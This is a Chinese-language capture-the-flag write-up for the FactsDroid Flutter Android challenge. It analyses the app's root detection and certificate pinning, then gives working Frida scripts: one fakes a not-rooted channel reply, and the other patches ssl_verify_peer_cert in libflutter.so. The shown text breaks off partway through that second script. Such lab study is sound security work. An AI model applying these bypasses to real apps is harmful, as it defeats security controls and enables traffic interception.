# 绕过root与重定向app流量

# FactsDroid

这个挑战的目标与限制

```text
| 目标 | 在动态流量篡改工具中拦截 FactsDroid 的 API 流量；操控显示给用户的 fact，可注入自定义内容或抑制真实 fact |
| 约束 ① | 不静态修改原始 APK |
| 约束 ② | 不能修改发往后端的请求 |
| 约束 ③ | 后端 (`uselessfacts.jsph.pl`) 不在挑战范围内，不能利用 |
| 约束 ④ | 响应操控可用 |
```

# 对apk文件的分析

```text
strings lib/x86_64/libapp.so | grep -E 'uselessfacts|pinning|root|fetch|certs'
aapt dump badging FactsDroid.apk
```

得到的信息很多

```markdown
| 包名 | `com.eightksec.factsdroid` |
| 框架 | Flutter（含 `lib/x86_64/libapp.so` 与 `libflutter.so`） |
| API | `https://uselessfacts.jsph.pl/api/v2/facts/random` |
| 钉死的证书 | `assets/flutter_assets/assets/certs/uselessfacts_jsph_pl.crt`（Let's Encrypt 颁发给 `uselessfacts.jsph.pl` 的叶证书） |
| 二进制内符号 | `SecurityContext_SetTrustedCertificatesBytes`、`SecureSocket_RegisterBadCertificateCallback`、`Pinning validation likely failed`、`_fetchRandomFact`、`_checkRoot`、`Security Warning: Device appears to be rooted` |
| MainActivity (Java) | 仅声明 channel 名 `com.eightksec.factsdroid/root_check`，****未注册 handler**** |
```

## root检测的说明

Jadx打开apk，mainactivity如下：

他的内容很少，主要是继承自AbstractActivityC0004e



去看AbstractActivityC0004e类的实现

负责启动 Flutter engine、加载libflutter\.so、运行 Dart AOT 业务代码 libapp\.so。

```java
**package** G;
**import** android.app.Activity;
**import** android.content.Intent;
**import** android.content.pm.PackageManager;
**import** android.os.Build;
**import** android.os.Bundle;
**import** android.os.Trace;
**import** android.util.Log;
**import** android.view.View;
**import** android.window.OnBackInvokedCallback;
**import** io.flutter.embedding.engine.FlutterJNI;
**import** java.util.Arrays;
**import** java.util.HashMap;
**import** java.util.Iterator;
**import** java.util.List;
**import** java.util.Objects;
```

接着看mainactivity的定义

- 它自己没有实现网络请求逻辑。

- 它自己没有实现 UI 逻辑。

- 它只留下了一个字符串字段：com\.eightksec\.factsdroid/root\_check。

他的意义就是

1\.确认app的是从这里启动flutter

```java
Manifest 里 launcher activity 是 com.eightksec.factsdroid.MainActivity，所以 Frida attach / adb 启动都围绕这个包和入口。
```



2\.暴露root\_check通道名

```java
Dart侧会通过Flutter MethodChannel 调 Android 侧做 root 检测。但反编译里没看到 setMethodCallHandler，说明 Android侧没有正常回复。这个缺口就是后面用 Frida hook FlutterJNI.handlePlatformMessage，伪造 success(false) 的依据。
```

''''

可以把他理解成一个“命名管道”

Flutter应用从开发角度来讲分为两层（但实际有三层，这是技术上）

1\.Dart层（Framework框架层）：真正业务逻辑，比如检查root、请求API，

更新UI。

2\.Android Java层（Embedder嵌入层）：负责和系统交互，比如查/system/bin/su，调用native，返回检测结果。

而这两层通信是会用MethodChannel。它需要一个通道名，列如：

```java
com.eightksec.factsdroid/root_check

  正常写法大概是这样：

  new MethodChannel(
      flutterEngine.getDartExecutor().getBinaryMessenger(),
      "com.eightksec.factsdroid/root_check"
  ).setMethodCallHandler((call, result) -> {
      if (call.method.equals("isDeviceRooted")) {
          result.success(false);
      }
  });
```

Dart 侧则可能这样调用：

```java
final rooted = await channel.invokeMethod("isDeviceRooted");
```

意思是：Dart 问 Android：“设备 root 了吗？”Android 应该回 true 或 false。

但这个 APK 的 MainActivity 只有：

```java
public final String f503f = "com.eightksec.factsdroid/root_check";
```

没有看到类似：

```java
setMethodCallHandler(...)
```

对B\.a函数分析

```typescript
**package** B;


**import** G.G;

**import** P.c;

**import** P.j;

**import** android.os.Build;

**import** android.util.Log;

**import** com.eightksec.factsdroid.MainActivity;

**import** f0.h;

**import** java.io.BufferedReader;

**import** java.io.File;

**import** java.io.InputStreamReader;

**import** l0.g;

**import** org.json.JSONException;

**import** org.json.JSONObject;


*/* JADX INFO: loaded from: classes.dex */*

**public** **final** */* synthetic */* **class** a **implements** j, c {


    */* JADX INFO: renamed from: b, reason: collision with root package name */*

    **public** **final** */* synthetic */* Object f0b;


    **public** */* synthetic */* a(Object obj) {

        **this**.f0b = obj;

    }


    @Override *// P.c
*
    **public** **void** a(Object obj) {

        **boolean** z2 = false;

        **if** (obj != **null**) {

            **try** {

                z2 = ((JSONObject) obj).getBoolean("handled");

            } **catch** (JSONException e2) {

                Log.e("KeyEventChannel", "Unable to unpack JSON message: " + e2);

            }

        }

        ((G) ((a) **this**.f0b).f0b).a(z2);

    }


    @Override *// P.j
*
    **public** **void** g(C.a aVar, O.j jVar) {

        **boolean** zM;

        **boolean** z2;

        **boolean** z3 = true;

        **int** i2 = MainActivity.f502g;

        h.e((MainActivity) **this**.f0b, "this$0");

        h.e(aVar, "call");

        **if** (!h.a((String) aVar.f4c, "isDeviceRooted")) {

            jVar.b();

            **return**;

        }

        String str = Build.TAGS;

        **if** (str == **null** || !g.M(str, "test-keys")) {

            String[] strArr = {"/system/app/Superuser.apk", "/sbin/su", "/system/bin/su", "/system/xbin/su", "/data/local/xbin/su", "/data/local/bin/su", "/system/sd/xbin/su", "/system/bin/failsafe/su", "/data/local/su", "/su/bin/su"};

            **int** i3 = 0;

            **while** (true) {

                **if** (i3 >= 10) {

                    Process processExec = **null**;

                    **try** {

                        processExec = Runtime.getRuntime().exec(**new** String[]{"/system/bin/getprop", "ro.debuggable"});

                        String line = **new** BufferedReader(**new** InputStreamReader(processExec.getInputStream())).readLine();

                        zM = line != **null** ? g.M(line, "1") : false;

                        processExec.destroy();

                    } **catch** (Throwable unused) {

                        **if** (processExec != **null**) {

                            processExec.destroy();

                        }

                        zM = false;

                    }

                    **if** (!zM) {

                        **try** {

                            Process processExec2 = Runtime.getRuntime().exec(**new** String[]{"su"});

                            **if** (processExec2 != **null**) {

                                processExec2.destroy();

                            }

                            z2 = true;

                        } **catch** (Throwable unused2) {

                            z2 = false;

                        }

                        **if** (!z2) {

                            z3 = false;

                        }

                    }

                } **else** **if** (**new** File(strArr[i3]).exists()) {

                    **break**;

                } **else** {

                    i3++;

                }

            }

        }

        jVar.c(Boolean.valueOf(z3));

    }

}
```

它检查的 root 痕迹包括：

```java
/system/app/Superuser.apk
  /sbin/su
  /system/bin/su
  /system/xbin/su
  /data/local/xbin/su
  /data/local/bin/su
  /system/sd/xbin/su
  /system/bin/failsafe/su
  /data/local/su
  /su/bin/su
```

还有：

Build\.TAGS 是否包含 test\-keys

getprop ro\.debuggable 是否为 1

Runtime\.exec\("su"\) 是否成功

所以我们的理解是：

1. Dart 层调用 root\_check/isDeviceRooted

2. Android 层进入 B\.a\.g\(\)

3. 在 root 模拟器上这些检测会返回 true

4. Dart 收到 true

5. App 禁用 Random Fact 按钮，并触发警告：

Security Warning: Device appears to be rooted\. Random fact button disabled\.



所以后面 Frida 绕过 root 检测有两种思路：

1. hook B\.a\.g\(\)，让它直接 result\.success\(false\)

2. 更通用地 hook FlutterJNI\.handlePlatformMessage，拦截 root\_check 通道并伪造 success\(false\)

接着分析apk，发现

业务代码不一定能在jadx的java里看到，因为Dart已编译到libapp\.so。



```typescript
**public** b(String str, String str2, String str3, String str4, **boolean** z2) {

        **this**.f257c = str == **null** ? "libapp.so" : str;

        **this**.f258d = str2 == **null** ? "flutter_assets" : str2;

        **this**.f260f = str4;

        **this**.f259e = str3 == **null** ? "" : str3;

        **this**.f256b = z2;

    }
```

也就是说默认Dart AOT库就是libapp\.so，默认的资源目录就是flutter\_assets。

然后它的 b\(\.\.\.\) 方法里：

```java
((FlutterJNI) this.f257c).runBundleAndSnapshotFromLibrary(
      aVar.f253a,
      aVar.f255c,
      aVar.f254b,
      (AssetManager) this.f258d,
      list
  );
```

这个函数名非常关键：

```java
runBundleAndSnapshotFromLibrary
```

意思就是：

从 native snapshot/library 里运行 Dart 入口函数这里就说明 Java 层把执行权交给 FlutterJNI，FlutterJNI 再去跑 libapp\.so 里的 Dart AOT。

而FlutterJNI 里有 native 方法



所以执行链大概是：

```java
MainActivity
  -> AbstractActivityC0004e / FlutterActivity 逻辑
  -> 创建 FlutterEngine
  -> FlutterJNI.loadLibrary / attachToNative
  -> DartExecutor
  -> runBundleAndSnapshotFromLibrary
  -> libflutter.so 加载并运行 libapp.so 中的 Dart AOT 业务
```

解包拿到的两个so文件含义

- libflutter\.so：Flutter engine、Dart runtime、BoringSSL 等运行时

- libapp\.so：Dart 业务代码 AOT 编译后的产物

## 证书验证的说明

现在去native层分析libapp\.so

直接用IDA打开分析是比较困难的



函数名随机，字符串无法交叉引用

对于Flutter应用在发布时，会把DART代码编译成机器码

和引擎代码一起打包到上面的两个so文件里

而libapp\.so经过AOT（ahead of time）编译而成，体积相对较小，这也就是Flutter 默认使用 Release 模式编译。在此模式下，编译工具链会自动移除代码中所有的调试信息，包括原本清晰的函数名。

而对于Flutter应用，行业中有一个好用的开源工具\-Blutter

https://github\.com/worawit/blutter\#，但他只能对arm\-64的文件进行操作

windows上使用需要配好环境，然后在x64 Native Tools Command Prompt里使用

生成的产物：



网络逻辑在 blutter\_out/asm/facts\_droid/services/api\_service\.dart:10：

- \_fetchRandomFact\(\) 调 ApiService\.getRandomFact\(\)，见 blutter\_out/asm/facts\_droid/main\.dart:1279



- getRandomFact\(\) 先调用 \_getHttpClientWithPinning\(\)，见blutter\_out/asm/facts\_droid/services/api\_service\.dart:29



- \_getHttpClientWithPinning\(\) 加载内置证书 assets/certs/uselessfacts\_jsph\_pl\.crt，见 blutter\_out/asm/facts\_droid/services/api\_service\.dart:273

**Dart 侧 \_getHttpClientWithPinning\(\) 从 assets/certs/uselessfacts\_jsph\_pl\.crt 读取证书，创建 SecurityContext，并调用setTrustedCertificatesBytes\(\) 设置可信证书。随后 HttpClient 使用这个 SecurityContext 发起 HTTPS 请求。**

**这说明 App 不依赖 Android 系统证书库，而是只信任 APK 内置证书。即使把 Burp/mitmproxy CA 安装到系统证书中，Flutter 的dart:io HttpClient 仍可能不信任 MITM 证书，因此普通抓包会失败。只能在 在****`libflutter.so`**** 模式扫描 ****`ssl_verify_peer_cert`**** 并 patch 其入口直接返回成功。**



- 然后创建 SecurityContext 并调用 setTrustedCertificatesBytes\(\)，见 blutter\_out/asm/facts\_droid/services/

api\_service\.dart:314



到这里可以总结

1. Dart端 网络请求存在，并且使用 SecurityContext\.setTrustedCertificatesBytes\(\) 做 TLS pinning。

2. Java 端有意不实现 root\_check handler，使 Dart 调用因 `MissingPluginException` 走失败分支 → 默认认为 rooted → 禁用 Random Fact 按钮

# 绕过root检测

接下来先去绕过root检测

js脚本

```javascript
/*
 * antiroot-channel.js — Java/Flutter side patch for FactsDroid root_check.
 *
 * The MainActivity does not register a handler for the
 * `com.eightksec.factsdroid/root_check` MethodChannel.  The Flutter
 * engine therefore replies "no handler", the Dart future yields null,
 * and the catch-all path concludes the device is rooted.
 *
 * Hook FlutterJNI.handlePlatformMessage.  For that channel send back a
 * synthetic StandardMethodCodec success-envelope holding `false`.
 *
 * Wire format of `StandardMethodCodec.encodeSuccessEnvelope(Boolean.FALSE)`:
 *   byte 0: 0x00    (success tag)
 *   byte 1: 0x02    (StandardMessageCodec value type for `false`)
 *
 * We build that 2-byte envelope ourselves because the Flutter codec
 * helper class is stripped by ProGuard in release builds of this app.
 */

console.log('[chan] antiroot-channel loading');

function patch() {
  Java.perform(function () {
    var FlutterJNI;
    try {
      FlutterJNI = Java.use('io.flutter.embedding.engine.FlutterJNI');
    } catch (e) {
      console.log('[chan] FlutterJNI not yet loaded');
      return false;
    }
    var ByteBuffer = Java.use('java.nio.ByteBuffer');

    FlutterJNI.handlePlatformMessage.overload(
      'java.lang.String', 'java.nio.ByteBuffer', 'int', 'long'
    ).implementation = function (channel, message, replyId, messageData) {
      if (channel === 'com.eightksec.factsdroid/root_check') {
        console.log('[chan] root_check inbound (replyId=' + replyId + ')');
        try {
          // success(false): tag byte 0x00, then StandardMessageCodec false = 0x02
          var buf = ByteBuffer.allocateDirect(2);
          buf.put(0x00);
          buf.put(0x02);
          this.invokePlatformMessageResponseCallback(replyId, buf, buf.position());
          console.log('[chan] replied isRooted=false');
          return;
        } catch (e) {
          console.log('[chan] reply error: ' + e);
        }
      }
      return this.handlePlatformMessage(channel, message, replyId, messageData);
    };
    console.log('[chan] FlutterJNI.handlePlatformMessage hooked');
    return true;
  });
}

let chanTries = 0;
const chanTimer = setInterval(function () {
  if (chanTries++ > 80) { clearInterval(chanTimer); console.log('[chan] giving up'); return; }
  let loaded = false;
  Java.perform(function () {
    try { Java.use('io.flutter.embedding.engine.FlutterJNI'); loaded = true; }
    catch (e) {}
  });
  if (loaded) { clearInterval(chanTimer); patch(); }
}, 100);

```

先激活frida\-server，然后先执行命令，再启动app

```bash
PS E:\ctf\8Ksec\FactsDroid.apk>  frida -U -W com.eightksec.factsdroid `
>>     -l work\antiroot-channel.js `
>>     --runtime=v8
     ____
    / _  |   Frida 17.8.0 - A world-class dynamic instrumentation toolkit
   | (_| |
    > _  |   Commands:
   /_/ |_|       help      -> Displays the help system
   . . . .       object?   -> Display information about 'object'
   . . . .       exit/quit -> Exit
   . . . .
   . . . .   More info at https://frida.re/docs/home/
   . . . .
   . . . .   Connected to Android Emulator 5554 (id=emulator-5554)
Waiting for spawn to appear...
Handling: Spawn(pid=2950, identifier="com.eightksec.factsdroid")
[chan] antiroot-channel loading
Spawned `com.eightksec.factsdroid`. Resuming main thread!
[Android Emulator 5554::re.compile('com.eightksec.factsdroid') ]-> [chan] FlutterJNI.handlePlatformMessage hooked
[chan] root_check inbound (replyId=6)
[chan] replied isRooted=false
```


# 证书校验patch

```javascript
/**

A Frida script that disables Flutter's TLS verification

This script works on Android x86, Android x64 and iOS x64. It uses pattern matching to find [ssl_verify_peer_cert in handshake.cc](https://github.com/google/boringssl/blob/master/ssl/handshake.cc#L323)

If the script doesn't work, take a look at https://github.com/NVISOsecurity/disable-flutter-tls-verification#warning-what-if-this-script-doesnt-work 

*/

// Configuration object containing patterns to locate the ssl_verify_peer_cert function for different platforms and architectures.
var config = {
    "ios":{
        "modulename": "Flutter",
        "patterns":{
            "arm64": [
                // First pattern is actually for macos
                "FF 83 01 D1 FA 67 01 A9 F8 5F 02 A9 F6 57 03 A9 F4 4F 04 A9 FD 7B 05 A9 FD 43 01 91 F4 03 00 AA 68 31 00 F0 08 01 40 F9 08 01 40 F9 E8 07 00 F9",
                "FF 83 01 D1 FA 67 01 A9 F8 5F 02 A9 F6 57 03 A9 F4 4F 04 A9 FD 7B 05 A9 FD 43 01 91 F? 03 00 AA ?? 0? 40 F? ?8 ?? 40 F9 ?? ?? 4? F9 ?? 00 00",
                "FF 43 01 D1 F8 5F 01 A9 F6 57 02 A9 F4 4F 03 A9 FD 7B 04 A9 FD 03 01 91 F3 03 00 AA 14 00 40 F9 88 1A 40 F9 15 E9 40 F9 B5 00 00 B4 B6 46 40 F9"

            ],
        },
    },
    "android":{
        "modulename": "libflutter.so",
        "patterns":{
            "arm64": [
                "F? 0F 1C F8 F? 5? 01 A9 F? 5? 02 A9 F? ?? 03 A9 ?? ?? ?? ?? 68 1A 40 F9",
                "F? 43 01 D1 FE 67 01 A9 F8 5F 02 A9 F6 57 03 A9 F4 4F 04 A9 13 00 40 F9 F4 03 00 AA 68 1A 40 F9",
                "FF 43 01 D1 FE 67 01 A9 ?? ?? 06 94 ?? 7? 06 94 68 1A 40 F9 15 15 41 F9 B5 00 00 B4 B6 4A 40 F9",
                "FF ?3 01 D1 F? ?? 01 A9 ?? ?? ?? 94 ?? ?? ?? 52 48 00 00 39 1A 50 40 F9 DA 02 00 B4 48 03 40 F9",
            ],
            "arm": [
                "2D E9 F? 4? D0 F8 00 80 81 46 D8 F8 18 00 D0 F8",
            ],
            "x64": [
                "55 41 57 41 56 41 55 41 54 53 50 49 89 F? 4? 8B ?? 4? 8B 4? 30 4C 8B ?? ?? 0? 00 00 4D 85 ?? 74 1? 4D 8B",
                "55 41 57 41 56 41 55 41 54 53 48 83 EC 18 49 89 FF 48 8B 1F 48 8B 43 30 4C 8B A0 28 02 00 00 4D 85 E4 74",
                "55 41 57 41 56 41 55 41 54 53 48 83 EC 18 49 89 FE 4C 8B 27 49 8B 44 24 30 48 8B 98 D0 01 00 00 48 85 DB"
            ],
            "x86":[
                "55 89 E5 53 57 56 83 E4 F0 83 EC 20 E8 00 00 00 00 5B 81 C3 2B 79 66 00 8B 7D 08 8B 17 8B 42 18 8B 80 88 01"
            ]

        }
    },
    "windows": {
        "modulename": "flutter_windows.dll",
        "patterns":{
            "x64":[
                "41 57 41 56 41 55 41 54 56 57 53 48 83 EC 40 4? 89 CF 48 8B 05 ?? ?? ?? 00 48 31 E0 48 89 44 24 38 4? 8B 31 4? 8B",
                "41 57 41 56 41 55 41 54 56 57 55 53 48 83 EC 38 48 89 CF 48 8B 05 20 45 C6 00 48 31 E0 48 89 44 24 30 48 8B 31 48",
            ]
        }
    },
    "linux":{
        "modulename": "libflutter_linux_gtk.so",
        "patterns":{
            "x64":[
                // This one actually matches android x64 too
                "55 41 57 41 56 41 55 41 54 53 48 83 EC 18 49 89 FE 4C 8B 27 49 8B 44 24 30 48 8B 98 D0 01 00 00 48 85 DB"
            ]
        }
    }
};

console.log("[+] Pattern version: Jan 26 2026")
console.log("[+] Arch:", Process.arch)
console.log("[+] Platform: ", Process.platform)
// Flag to check if TLS validation has already been disabled
var TLSValidationDisabled = false;
var flutterLibraryFound = false;
var tries = 0;
var maxTries = 5;
var timeout = 1000;
var androidBypass = false;
disableTLSValidation();

// Main function to disable TLS validation for Flutter
function disableTLSValidation() {

    // Stop if ready
    if (TLSValidationDisabled) return;

    tries ++;
    if(tries > maxTries && !androidBypass){
        console.warn(`\n`)
        console.warn('[!] Flutter library not found. Possible reasons:');
        console.warn('[!] - The application does not use Flutter');
        console.warn('[!] - The application has not loaded the Flutter library yet');
        console.warn('[!] - You are using an emulator + gadget (https://github.com/NVISOsecurity/disable-flutter-tls-verification/issues/43)');
        console.warn('[!] The script will continue, but is likely to fail');
        console.warn(`\n`)
        androidBypass = true;
    }else{
        // No module found yet
        if(m == null){
            if(androidBypass){
                // But we are in bypass mode and are looking for the ssl_verify_peer_certy anyway
                console.log(`[ ] Locating ssl_verify_peer_cert (${tries}/${maxTries})`)
            }
            else{
                // Still looking for flutter lib
                console.log(`[ ] Locating Flutter library ${tries}/${maxTries}`);
            }
        }
        else
        {
            // Module has been located
            console.log(`[ ] Locating ssl_verify_peer_cert (${tries}/${maxTries})`)
        }
    }
    

    // Figure out which patterns to use
    var platformConfig = {}
    if(Java.available){
        platformConfig = config["android"]
    }
    else if(Process.platform === 'darwin'){
        platformConfig = config["ios"]
    }
    else if(Process.platform in config){
        platformConfig = config[Process.platform]
    }
    else{
        console.log(`[!] Platform not supported: ${Process.platform}`)
    }

    var m = Process.findModuleByName(platformConfig["modulename"]);

    if (m === null && !androidBypass) {
        setTimeout(disableTLSValidation, timeout);
        return;
    }
    else{
        if(!androidBypass){
            console.log(`[+] Flutter library located`)
        }
        // reset counter so that searching for ssl_verify_peer_cert also gets x attempts
        if(flutterLibraryFound == false){
            flutterLibraryFound = true;
            tries = 0;
        }
    }

    if (Process.arch in platformConfig["patterns"])
    {
        var ranges;
        if(Java.available){
            // On Android, getting ranges from the loaded module is buggy, so we revert to Process.enumerateRanges
            ranges = Process.enumerateRanges({protection: 'r-x'}).filter(isFlutterRange)
        }else{
            // On iOS, there's no issue
            ranges = m.enumerateRanges('r-x')
        }

        findAndPatch(ranges, platformConfig["patterns"][Process.arch], Java.available && Process.arch == "arm" ? 1 : 0);
    }
    else
    {
        console.log('[!] Processor architecture not supported: ', Process.arch);
    }

    if (!TLSValidationDisabled)
    {        
        if (tries == maxTries)
        {
            if(androidBypass){
                console.warn(`\n`)
                console.warn(`[!] No function matching ssl_verify_peer_cert could be found.`)
                console.warn(`[!] If you are sure that the application is using Flutter, please open an issue:`)
                console.warn(`[!] https://github.com/NVISOsecurity/disable-flutter-tls-verification/issues`)
                console.warn(`\n`)
            }else{
